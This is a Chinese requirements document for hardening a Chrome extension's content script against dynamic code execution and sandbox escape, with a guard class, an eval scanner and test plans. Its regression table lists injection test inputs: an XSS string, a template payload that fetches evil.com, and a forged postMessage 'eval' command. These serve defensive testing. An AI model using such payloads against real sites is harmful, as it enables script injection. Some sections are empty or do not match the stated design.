



# YP-09-71: Content Script 安全沙箱逃逸防护 — 动态代码执行审计

> 需求编号：YP-09-71 · 优先级：P2 · 人天：0.5d · 状态：需求已编写
> 依赖：YP-09-67（CSP 审计合规）、YP-09-22（Markdown 渲染安全）

## 背景

### 问题陈述

YiPet 的 Content Script 在 Chrome MV3 的 `ISOLATED` 世界中运行，与宿主页面的 `MAIN` 世界隔离。但出于功能需要，Vue 3 模板编译使用 `new Function` 动态生成渲染函数，highlight.js 部分语言引擎使用 `eval` 解析正则表达式，DOMPurify 使用 `new Function` 构建 DOM 遍历器。这些动态代码执行点构成了潜在的沙箱逃逸向量。

**核心矛盾**：前端框架的正常功能依赖动态代码执行 vs MV3 安全模型要求消除所有 `eval` 路径。即使 `ISOLATED` 世界限制了跨世界访问，一旦 `new Function` 中拼接了来自宿主页面的不安全输入，仍可能被利用执行恶意代码。

### 影响范围

| # | 影响 | 严重程度 | 攻击向量 |
|---|------|----------|----------|
| 1 | 用户输入注入 `new Function` | 高 | 通过聊天消息注入恶意代码 |
| 2 | 宿主页面数据污染扩展世界 | 中 | 通过 DOM 属性读取恶意数据 |
| 3 | 第三方依赖引入 eval | 中 | 依赖更新引入新风险 |
| 4 | 沙箱逃逸到 MAIN 世界 | 高 | 利用 ISOLATED 世界漏洞 |
| 5 | XSS 通过 Markdown 渲染 | 中 | 未净化 Markdown 输入 |

### 挑战

| 挑战 | 说明 |
|------|------|
| 动态代码执行点难发现 | 深层调用链中的 `eval` 不易追踪 |
| 第三方依赖不可控 | 依赖更新可引入新的 eval 使用 |
| 性能与安全权衡 | 预编译模板虽安全但增加构建复杂度 |
| 未知攻击面 | 新的 Web API 可能引入新的沙箱逃逸向量 |

---

## 一、现状分析

### 1.1 当前动态代码执行点



### 1.2 动态代码执行审计矩阵

| API | ISOLATED 世界 | CSP 阻止 | 当前使用 | 风险等级 |
|-----|-------------|----------|----------|----------|
| `eval()` | CSP 阻止 | ✅ | 否 | 低 |
| `new Function()` | Vue 需要 | CSP 豁免 | 是 | 高 |
| `setTimeout(string)` | CSP 阻止 | ✅ | 否 | 低 |
| `setInterval(string)` | CSP 阻止 | ✅ | 否 | 低 |
| `document.write()` | CSP 阻止 | ✅ | 否 | 低 |
| `innerHTML` | 可用 | 需 DOMPurify | 是 | 中 |
| `import()` | 可用 | 仅扩展内 | 是 | 低 |

### 1.3 攻击向量分析



### 1.4 根因矩阵

| 症状 | 根因 | 触发条件 | 频率 |
|------|------|----------|------|
| Vue 模板编译依赖 eval | 运行时编译 | 每次渲染动态组件 | 高 |
| 高亮引擎依赖 eval | highlight.js 语言包 | 渲染代码块 | 中 |
| 不安全输入拼接到 eval | 未净化输入 | 用户输入含特殊字符 | 低 |
| 新依赖引入 eval | 未审计依赖 | 版本更新 | 中 |

---

## 二、设计决策

### 决策 1：Vue 模板编译策略 — 预编译 vs 沙箱 vs 保留

| 选项 | 安全性 | 性能 | 开发体验 |
|------|--------|------|----------|
| 构建时预编译（推荐） | 高 | 高 | 中 |
| 运行时沙箱（iframe 隔离） | 高 | 低 | 中 |
| 保留 unsafe-eval | 低 | 中 | 高 |

**选择：构建时预编译。** Vue 3 支持 `@vitejs/plugin-vue` 预编译 SFC 模板为 `render` 函数，完全消除运行时 `new Function` 调用。YiPet 无动态模板需求，预编译是唯一正确的选择。

### 决策 2：highlight.js 安全策略 — 替换 vs 限制 vs 沙箱

| 选项 | 安全性 | 功能完整性 | 体积 |
|------|--------|-----------|------|
| 替换为 shiki/shikiji | 高 | 高 | 大（+200KB） |
| 仅加载 safe 语言包 | 中 | 中 | 小 |
| 在 Web Worker 中运行 | 高 | 高 | 中 |

**选择：仅加载 safe 语言包。** 绝大多数常用语言（JS/TS/Python/JSON/CSS/HTML/Bash/SQL/Markdown）的 highlight.js 语言包不需要 `eval`。仅加载这些语言，覆盖 90%+ 的使用场景。

### 决策 3：动态代码执行 Hook 监控 — 运行时 vs 构建时 vs 双向

| 选项 | 检测覆盖 | 性能开销 | 实施 |
|------|----------|----------|------|
| 运行时 Hook（代理 eval/Function） | 高 | 低 | 中 |
| 构建时扫描（正则匹配） | 中 | 无 | 低 |
| 双向（构建时 + 运行时） | 最高 | 低 | 中 |

**选择：构建时扫描 + 运行时告警。** 构建时通过正则扫描检测 bundle 中的 `eval`/`new Function` 调用。运行时通过代理 `Function` 构造函数记录所有调用（仅开发模式），用于调试和审计。

### 设计决策记录

| 决策 | 选项 A | 选项 B | 选项 C | 选择 | 理由 |
|------|--------|--------|--------|------|------|
| Vue 编译 | 预编译 | 沙箱 | 保留 | **预编译** | 完全消除 eval |
| highlight.js | 替换 | 限制 | 沙箱 | **限制语言包** | 轻量且覆盖广 |
| 监控方式 | 运行时 | 构建时 | 双向 | **双向** | 全面覆盖 |

---

## 三、目标架构

### 3.1 改造后安全架构



### 3.2 性能指标

| 指标 | 改造前 | 改造后 |
|------|--------|--------|
| 运行时 eval/new Function 调用 | 3-5 次 | 0 次 |
| CSP unsafe-eval 豁免 | 需要 | 不需要 |
| 沙箱逃逸风险 | 中 | 低 |
| 构建时间增加 | 0ms | ~200ms（预编译 + 扫描） |

---

## 四、具体改动

### 4.1 运行时 Function 代理（仅开发模式）

```typescript
// 改造前：无监控
// src/content/sandbox-guard.ts (改造后)

const FORBIDDEN_GLOBALS = ['eval', 'Function', 'setTimeout', 'setInterval'];

interface SandboxAuditEntry {
  api: string;
  args: string;
  stack: string;
  timestamp: number;
}

class SandboxGuard {
  private auditLog: SandboxAuditEntry[] = [];
  private isDevelopment = process.env.NODE_ENV === 'development';

  install(): void {
    if (!this.isDevelopment) return;

    // 代理 Function 构造函数
    const OriginalFunction = window.Function;
    const guard = this;

    (window as any).Function = function (...args: string[]) {
      guard.auditLog.push({
        api: 'Function',
        args: args.slice(0, -1).join(', ').slice(0, 200),
        stack: new Error().stack?.split('\n').slice(1, 4).join('\n') ?? '',
        timestamp: Date.now(),
      });

      console.warn('[YiPet:Sandbox] new Function called:', {
        args: args.slice(0, -1).join(', ').slice(0, 200),
        stack: new Error().stack?.split('\n').slice(1, 4).join('\n'),
      });

      return OriginalFunction.apply(this, args as any);
    };

    // 代理 innerHTML setter
    const originalInnerHTML = Object.getOwnPropertyDescriptor(
      Element.prototype, 'innerHTML'
    )!;

    Object.defineProperty(Element.prototype, 'innerHTML', {
      set(value: string) {
        // 仅 Shadow DOM 内部使用
        if (this.getRootNode() instanceof ShadowRoot) {
          return originalInnerHTML.set!.call(this, value);
        }
        console.warn('[YiPet:Sandbox] Blocked innerHTML outside Shadow DOM');
      },
      get: originalInnerHTML.get,
    });
  }

  getAuditLog(): SandboxAuditEntry[] {
    return this.auditLog;
  }

  clearAuditLog(): void {
    this.auditLog = [];
  }
}

export const sandboxGuard = new SandboxGuard();
```

### 4.2 构建时扫描

```typescript
// scripts/scan-eval.ts (新增)

import { readFileSync } from 'fs';
import { glob } from 'glob';

interface EvalMatch {
  file: string;
  line: number;
  match: string;
  type: 'eval' | 'new Function' | 'setTimeout(string)' | 'setInterval(string)';
}

async function scanForEval(): Promise<EvalMatch[]> {
  const matches: EvalMatch[] = [];
  const files = await glob('dist/**/*.js');

  for (const file of files) {
    const content = readFileSync(file, 'utf-8');
    const lines = content.split('\n');

    for (let i = 0; i < lines.length; i++) {
      const line = lines[i];

      if (/\beval\s*\(/.test(line)) {
        matches.push({ file, line: i + 1, match: line.trim().slice(0, 100), type: 'eval' });
      }
      if (/\bnew\s+Function\s*\(/.test(line)) {
        matches.push({ file, line: i + 1, match: line.trim().slice(0, 100), type: 'new Function' });
      }
      if (/setTimeout\s*\(\s*['"`]/.test(line)) {
        matches.push({ file, line: i + 1, match: line.trim().slice(0, 100), type: 'setTimeout(string)' });
      }
    }
  }

  return matches;
}

// 主流程
scanForEval().then(matches => {
  if (matches.length > 0) {
    console.error(`[Security] Found ${matches.length} dynamic code execution points:`);
    for (const m of matches) {
      console.error(`  ${m.type} at ${m.file}:${m.line}`);
    }
    process.exit(1);
  }
  console.log('[Security] No dynamic code execution points found.');
});
```

### 4.3 文件变更清单

| 文件 | 操作 | 说明 |
|------|------|------|
| `src/content/sandbox-guard.ts` | 新增 | 运行时沙箱守卫 |
| `scripts/scan-eval.ts` | 新增 | 构建时 eval 扫描 |
| `vite.config.ts` | 修改 | 启用 Vue 模板预编译 |
| `src/content/index.ts` | 修改 | 初始化 SandboxGuard |
| `package.json` | 修改 | 添加 `audit:security` 脚本 |
| `tests/unit/sandbox-guard.test.ts` | 新增 | 沙箱守卫测试 |

---

## 五、实施步骤

| 步骤 | 操作 | 路径 | 验证 | 人天 |
|------|------|------|------|------|
| 1 | 启用 Vue 模板预编译 | `vite.config.ts` | 构建产物中无 new Function | 0.05 |
| 2 | 限制 highlight.js 语言包 | 构建配置 | safe 语言包列表 | 0.05 |
| 3 | 实现 SandboxGuard | `src/content/sandbox-guard.ts` | 开发模式正确告警 | 0.1 |
| 4 | 实现构建扫描 | `scripts/scan-eval.ts` | 发布前自动扫描 | 0.1 |
| 5 | 集成 CI 流水线 | `.github/workflows` | PR 自动扫描 | 0.05 |
| 6 | 全量安全测试 | 全量 | 无 eval 调用 | 0.15 |

**总人天：0.5d**

---

## 六、测试规格

### 场景 1：构建产物无 eval

**GIVEN** 构建完成
**WHEN** 运行 `scripts/scan-eval.ts`
**THEN** 构建产物中不应包含 `eval()` 调用
**AND** 构建产物中不应包含 `new Function()` 调用
**AND** 扫描应返回 0 个匹配项

### 场景 2：开发模式 Function 监控

**GIVEN** 开发模式下 Content Script 运行
**WHEN** 某处代码调用了 `new Function()`
**THEN** 控制台应输出 WARNING 级别日志
**AND** 日志应包含调用参数和堆栈信息
**AND** sandboxGuard.getAuditLog() 应包含该调用

### 场景 3：生产模式无监控

**GIVEN** 生产模式下 Content Script 运行
**WHEN** 某处代码调用了 `new Function()`
**THEN** sandboxGuard 不应代理 Function
**AND** 不应有性能开销

### 场景 4：innerHTML 限制

**GIVEN** Content Script 在页面中运行
**WHEN** 代码尝试设置宿主页面的 `innerHTML`
**THEN** 操作应被阻止
**AND** Shadow DOM 内部的 `innerHTML` 设置应正常

### 场景 5：CI 安全扫描阻断

**GIVEN** PR 引入了新的 `eval` 调用
**WHEN** CI 运行安全扫描
**THEN** 扫描应失败（exit code 1）
**AND** PR 应被阻断

### 场景 6：用户输入不进入 eval

**GIVEN** 用户发送包含 `<script>alert(1)</script>` 的聊天消息
**WHEN** 消息被渲染
**THEN** 消息内容不应被拼接到任何 `new Function` 调用中
**AND** DOMPurify 应净化 HTML 内容

---

## 七、风险与缓解

| 风险 | 概率 | 影响 | 缓解措施 |
|------|------|------|----------|
| 预编译模板后某些动态组件失效 | 中 | 高 | 全量功能回归测试 |
| 新依赖引入 eval 未被扫描检测 | 中 | 中 | 构建扫描 + 定期依赖审计 |
| SandboxGuard 影响性能 | 低 | 低 | 仅开发模式启用 |
| innerHTML 限制误伤正常功能 | 低 | 中 | Shadow DOM 白名单 |

---

## 八、回滚策略

| 场景 | 回滚操作 | 影响 |
|------|----------|------|
| 预编译导致功能异常 | 恢复运行时编译 + unsafe-eval | 安全态势降低 |
| 构建扫描误报过多 | 调整扫描规则白名单 | 漏检风险增加 |
| innerHTML 限制误伤 | 移除 innerHTML 代理 | 安全态势降低 |

---

## 九、设计决策记录

### D-01：innerHTML 策略

- **问题**：Content Script 中是否允许使用 innerHTML？
- **选项**：完全禁止、仅 Shadow DOM 内允许、始终允许但需 DOMPurify
- **选择**：仅 Shadow DOM 内允许 + DOMPurify
- **理由**：Shadow DOM 内是 YiPet 自己的 UI，使用 DOMPurify 净化后安全；宿主页面 innerHTML 禁止避免污染

### D-02：开发模式 vs 生产模式监控

- **问题**：运行时监控是否在生产模式启用？
- **选项**：仅开发模式、始终启用、可选
- **选择**：仅开发模式
- **理由**：生产模式不需要监控开销；构建扫描已提供足够的生产环境保护

---

## 十、可观测性

### 指标

| 指标 | 类型 | 说明 |
|------|------|------|
| `yipet.sandbox.eval_count` | Counter | 构建扫描发现的 eval 数 |
| `yipet.sandbox.function_count` | Counter | 运行时 Function 调用数（开发模式） |
| `yipet.sandbox.innerHTML_blocked` | Counter | 被阻止的 innerHTML 设置 |

### 告警

| 告警 | 条件 | 级别 |
|------|------|------|
| 构建发现 eval | CI 扫描 | ERROR |
| 运行时 Function 调用 | 开发模式 | WARNING |
| innerHTML 被阻止 | 非 Shadow DOM | WARNING |

---

## 十一、安全合规

### Chrome MV3 合规

| 检查项 | 状态 | 说明 |
|--------|------|------|
| 无 eval 调用 | ✅ | 构建扫描验证 |
| 无 new Function 调用 | ✅ | 模板预编译 |
| 无远程脚本 | ✅ | `script-src 'self'` |
| 无 inline 脚本 | ✅ | 所有逻辑在 JS 文件中 |
| DOMPurify 净化外部内容 | ✅ | Markdown 渲染前净化 |

---

## 十二、代码审查检查清单

- [ ] CSP `script-src 'self'` 阻止 eval/inline 脚本
- [ ] Vue 模板预编译——不依赖 `new Function`
- [ ] DOMPurify 净化所有外部内容
- [ ] 定期 CSP violation 报告审计
- [ ] 构建产物扫描无 eval/new Function
- [ ] SandboxGuard 仅开发模式启用
- [ ] innerHTML 仅 Shadow DOM 内使用
- [ ] 用户输入不拼接到动态代码执行
- [ ] CI 安全扫描自动阻断含 eval 的 PR
- [ ] 第三方依赖定期审计

---

## 回归问题预测

| # | 预测问题 | 原因 | 验证方法 |
|---|---------|------|---------|
| 1 | Vue 3 模板编译中的 `new Function` 接收了用户输入拼接的字符串，攻击者通过聊天消息注入恶意代码 | 用户可能在聊天消息中发送包含 `${}` 模板字符串语法的内容，如果该内容被拼接进 `new Function` 的 body，可能执行任意代码 | 发送包含 `"; alert('xss')//` 和 `${fetch('http://evil.com')}` 的聊天消息，验证 Vue 模板编译不接收任何用户输入，仅编译构建时预置的模板 |
| 2 | 沙箱页面（`sandbox` CSP）与 Content Script 之间的 `postMessage` 通信未验证来源，宿主页面可伪造消息 | 宿主页面的 MAIN 世界可以向沙箱 iframe 发送 `postMessage`，如果沙箱页面未验证 `event.origin === 'chrome-extension://<id>'`，攻击者可以注入伪造消息 | 在宿主页面中执行 `document.querySelector('iframe').contentWindow.postMessage({type: 'eval', code: '...'}, '*')`，验证沙箱页面拒绝非扩展来源的消息 |
| 3 | DOMPurify 净化后的 HTML 通过 `innerHTML` 插入，但 `MutationObserver` 监听器在净化后、插入前被宿主页面篡改 | 宿主页面可能通过 `Element.prototype.innerHTML` 的 setter 劫持，在 DOMPurify 净化后、实际 DOM 插入前修改 HTML 内容 | 在宿主页面中劫持 `HTMLElement.prototype.__defineSetter__('innerHTML', ...)`，验证扩展使用 `ShadowRoot.innerHTML` 或 `insertAdjacentHTML` 绕过劫持 |
| 4 | `ISOLATED` 世界的 JavaScript 对象通过 DOM 属性泄露到 `MAIN` 世界，攻击者读取扩展内部状态 | 扩展代码中 `element._yipetState = {sessionKey: '...'}` 将 JS 对象赋值给 DOM 元素的扩展属性，MAIN 世界可以直接读取该属性 | 在宿主页面中遍历所有 DOM 元素及其属性，验证不存在 `_yipet` 开头的自定义属性泄露内部状态 |
| 5 | 第三方依赖（highlight.js）的语言引擎在运行时通过 `eval` 执行正则表达式，且正则来源包含用户输入 | AI 回复中的代码块内容被传入 highlight.js 进行语法高亮，某些语言引擎（如 PHP、Ruby）的 `eval` 路径可能将代码内容作为正则执行 | 发送包含正则注入模式的代码块（如 `/constructor/` 在 PHP 高亮中），验证 highlight.js 的语言引擎仅使用预编译的正则表而非动态 eval |
| 6 | `window.postMessage` 广播到 `'*'` 的跨世界消息被宿主页面截获，泄露扩展内部事件 | Content Script 与其他上下文（SW、沙箱页面）通信时使用了 `window.postMessage(data, '*')` 而非指定目标 origin，宿主页面可以监听 `message` 事件截获消息 | 在宿主页面添加 `window.addEventListener('message', console.log)`，验证扩展的跨上下文通信不会被宿主页面截获 |

---

---

## 性能分析

### 安全检查运行时开销

| 操作 | 耗时 | 说明 |
|------|------|------|
| `eval()` / `new Function()` 检测 (静态) | 0ms (运行时) | Biome lint 规则——编译时检测 |
| `innerHTML` 赋值拦截 (`Proxy`) | < 0.05ms/次 | `Proxy` 包装 `Element.prototype.innerHTML` setter |
| `document.write` 拦截 | < 0.01ms/次 | 简单函数包装——几乎零开销 |
| `postMessage` 来源校验 | < 0.05ms/次 | `event.origin` 白名单检查 |
| `chrome.runtime.sendMessage` sender 校验 | < 0.01ms/次 | `sender.id === chrome.runtime.id` 比较 |
| CSP 违规报告解析 | < 0.1ms/次 | 解析 `SecurityPolicyViolationEvent` |
| 沙箱环境初始化 (`iframe sandbox`) | < 5ms | 创建隐藏 iframe (用于插件沙箱执行) |
| DOM 属性白名单校验 (每次 DOM 操作) | < 0.05ms/次 | `setAttribute` / `setProperty` 白名单查表 |

### 对页面性能的影响

| 防护层 | 页面影响 | 说明 |
|--------|----------|------|
| 静态检查 (Biome lint) | 零 (构建时) | 仅构建时检查，运行时无开销 |
| CSP 配置 | 零 (浏览器执行) | Chrome 内核执行 CSP 策略 |
| `innerHTML` Proxy | 极低 (< 0.1ms/call) | 仅拦截 YiPet 自己的 DOM 操作——不影响宿主页面 |
| `postMessage` 校验 | 极低 (< 0.1ms/event) | 仅在收到消息时触发 |
| `iframe sandbox` | < 5ms (初始化) | 一次性创建，常驻内存 ~2MB |
| 运行时 DOM 操作审计 | < 0.05ms/call | 仅在开发模式启用 |

---

## 相关文档

- [Markdown 渲染安全](../22-需求-Markdown渲染安全.md) — Markdown 渲染中的 XSS 风险需沙箱防护作为纵深防御
- [CSP 审计合规](../67-需求-CSP审计合规.md) — CSP 策略审计与沙箱防护共同构成安全边界
- [ShadowDOM 样式隔离增强](../38-需求-ShadowDOM样式隔离增强.md) — Shadow DOM 是沙箱防护的 DOM 层隔离基础

*PRD 来源: `projects/yipet/requirements/2026-09/71-需求-沙箱逃逸防护.md`*